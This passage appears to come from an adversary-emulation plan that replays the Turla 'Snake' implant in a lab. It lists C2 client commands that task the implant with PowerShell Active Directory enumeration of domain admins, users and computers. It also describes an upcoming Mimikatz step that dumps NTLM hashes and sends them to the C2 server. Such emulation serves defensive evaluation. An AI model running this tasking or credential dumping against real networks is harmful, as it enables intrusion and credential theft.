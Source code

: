 :heavy_exclamation_mark: Verify that `ZilvinasAdmin`shows up in the list of accounts.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Domain Admins` domain group.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Domain Admins\" | Select Name,SamAccountName"}'
```

:heavy_exclamation_mark: Verify that `ZilvinasAdmin`shows up in the list of accounts.

* Wait 1 minute before tasking Snake to discover domain users. Ensure
`Zilvinas` and `ZilvinasAdmin` appear in the output.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADUser -Filter {LastLogonDate -ne 0} -Properties * | Select Name,SamAccountName"}'
```

* Finally, wait 1 minute before tasking Snake to obtain a list of domain computers and some of their information (IP addresses, DNS names, and description).

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADComputer -Filter * -Properties * | Select Name,DnsName,IPv4Address,Description"}'
```

:heavy_exclamation_mark: Ensure that `Zilvinas' Workstation` appears in the `Description` field for `uosis`

### :moyai: Source Code

* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Powershell execution](../../Resources/Snake/UserModule/src/execute.cpp#L372)

### :microscope: Cited Intelligence

* TBD

## Step 16 - Preparation for Lateral Movement to Admin Workstation

:microphone: `Voice Track:`

Step 16 emulates Turla performing credential dumping on the file server with the goal of moving laterally to a workstation owned by a Domain Admin.

Snake downloads Mimikatz to the file server and extracts all NTLM hashes on the target. The command output is sent directly to the C2 server.

---

### ☣️ Procedures
